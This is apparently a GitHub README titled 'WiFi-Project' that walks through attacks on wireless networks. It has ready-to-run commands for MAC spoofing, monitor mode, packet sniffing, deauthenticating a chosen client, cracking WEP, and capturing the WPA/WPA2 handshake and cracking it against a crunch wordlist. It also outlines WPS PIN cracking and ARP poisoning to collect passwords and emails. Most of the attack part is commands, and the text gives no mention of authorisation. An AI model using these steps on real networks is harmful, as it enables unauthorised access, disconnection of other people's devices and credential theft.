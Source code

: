 # WiFi-Project

Pre-connection attacks, gaining access & post-connection attacks on WEP, WPA & WPA2. 🛰✔️

* ## Prerequisites
0. Linux + wireless adapter.

1. Change the MAC address of your wireless adapter, either for hiding a computer on a network or for allowing it to impersonate another network device.

```
ifconfig wireless_adapter_name down
ifconfig wireless_adapter_name hw ether 00:19:35:89:88:14
ifconfig wireless_adapter_name up
```

2. Change your wireless interface to "Monitor" mode. By default, the mode of wireless devices is set to "Managed", that means our wireless device will only capture packets that have our device's MAC address as the destination MAC.

```
ifconfig wireless_adapter_name down
airmon-ng check kill (kill all interference processes)
iwconfig wireless_adapter_name mode monitor
ifconfig wireless_adapter_name up
iwconfig
```

* ## Pre-connection attacks
1. Discover the networks around you:
```
airodump-ng wireless_adapter_name
```
![Discover networks around you](https://user-images.githubusercontent.com/64968597/134020395-c7a67e4b-d7d0-4a84-a155-8a67fdf449c9.JPG)

2. Sniff the packets from a specified network:
```
airodump-ng --bssid target_MAC --channel N (--write file_name) wireless_adapter_name
```

3. Deauthentication attack (disconnect any device from the network):

```
aireplay-ng --deauth time_out -a router_addr -c target_mac_addr wireless_adapter_name
```
This attack will always work ! The only way around it is to change the MAC address of the target machine.

* ## Gaining access

1. WEP cracking : (~100% success)
   
   Each packet is encrypted using a unique key stream.
   <br/> A random initialization vector (IV) is used to generate the keys stream. This initialization vector is only 24 bits long.
   <br/> The IV is too small and sent in plain text, so in busy networks, IV's will repeat, making it vulnerable to statistical attacks. Therefore, the key stream can be determined and the encryption broken.

   To crack WEP, we need a large number of packets/IVs to analyse the IVs and crack the router's key.

   Step 1:
   <br/> Capture a large number of packets 
   ```
   airodump-ng --bssid MAC --channel N --write file_name wireless_adapter_name
   ```
   
   Step 2:
   <br/> Run aircrack-ng to crack the password
   ```
   aircrack-ng .cap_file_captured_previously
   ```
   Gets cracked instantly !
   
2. WPA/WPA2 cracking : (~40% success)
   
   The goal is to capture the handshake (4 packets) between the router and a device.
   
   Step 1: 
           <br/> Run a deauthentication attack against a device connected to the router and wait for him to connect back to it OR wait for a new client to connect.
           
   Step 2:
           <br/> Catch the 4-way handshake (EAPOL) using "airodump-ng" of a client (re)connecting.
           <br/>
           <br/> In a straight forward way, the handshake doesn't contain data that helps recover the key.
           <br/> However, it contains data that can be used to compute if a key is valid or not !
           <br/> Useful information in the handshake - Message Integrity Code (MIC): SP address, STA address, AP nonce, STA nonce, EAPOL, Payload
           
   Step 3: 
           <br/> Start guessing the router's passphrase by computing the PTK and the resulting MIC (from KCK key).
           <br/> The passphrase generates the PSK --> the PSK generates the PMK --> the PMK generates the PTK --> the PTK generates the MIC with the KCK key.
           <br/>
           <br/> Create a wordlist/dictionnary:
           <br/> Example: "crunch 6 8 abc123 -o wordlist.txt" --> creates a wordlist of length 6 to 8 with characters abc123 in a file called wordlist.txt
           <br/> Argument "-d 1@" is specified for non-repeating letters.
           
   ```
   aircrack-ng file_containing_handshake.cap -w word_list
   ```
   Step 4 : 
           <br/> The aircrack-ng command will generate new MICs from the wordlist and compare each of them to the (2nd message) MIC of the 4-way handshake.
           <br/> if(new_MIC == MIC_handshake), then the passphrase generating this MIC is the router's password !
           
            
https://user-images.githubusercontent.com/64968597/134026257-af761b17-4b0b-4c87-95aa-b7999ee1a2b3.mp4

![password_crack](https://user-images.githubusercontent.com/64968597/134026466-bfc08a47-8d84-4f6f-98af-816a25209824.JPG)


   Another method:
            <br/> Exploit the WPS feature (except if PBC is enabled: Push Button Authentication)
            <br/> The WPS feature allows clients to connect without a password.
            <br/> Authentication is done using a 8 digit pin, which can be cracked under a minute.

* ## Post-connection attacks

![https_bypass_blur](https://user-images.githubusercontent.com/64968597/134031635-1eb1f336-2dc0-4400-8f64-566ddcf44f2f.png)

1. ARP poisoning using bettercap, arpspoof, etc.:
   <br/> The captured packets are then easily analysed (using Wireshark) to gather passwords, emails, usernames, etc.
